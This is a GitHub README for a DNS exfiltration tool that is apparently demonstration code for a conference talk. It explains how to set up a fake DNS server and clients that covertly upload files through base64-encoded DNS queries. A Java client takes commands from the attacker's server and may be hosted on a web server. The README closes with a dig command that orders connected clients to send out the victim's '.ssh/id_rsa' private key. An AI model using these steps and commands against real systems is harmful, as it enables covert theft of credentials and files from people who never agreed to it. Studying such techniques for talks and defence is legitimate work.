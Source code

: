 # dns_exfiltration
Simple DNS exfiltration using base64-encoded URL's

This is demonstration code for a talk. It has hard-coded URL's and is useful for no other purpose. 

##Server Setup:
server should be run on a machine with an NS record pointed at it.
Your domain will be used as the base url for the client.

install python-dnslib using your favorite package manager or pip.
Copy server2 code to your fake-dns-server and run as root.



##Client setup:

*python client:*
This client is only useful for uploading files discretely.
```bash
client local_filename remote_filename base_url
```

*Java client:*
The java client has compile-time dependencies. You'll need to include org.xbill.DNS to make DNS requests and org.apache.commons.codec for Base64. You can just extract those and edit the Makefile accordingly.

```bash
make
make jar
java -jar DefConGui.jar
```

Unlike the python client, in which the user uploads files intentionally, the java client accepts commands from the hacked DNS server and uploads files by the will of the DNS attacker.

Naturally, being that this is a java swing client, this could easily be uploaded to a web server.


## Sending commands to the Java client:
Commands are sent from the 'cmd' file. Send your command to all connected java clients using... dig. Of course.
```bash
dig $(echo ".ssh/id_rsa" | base64).cmd.def.con
```
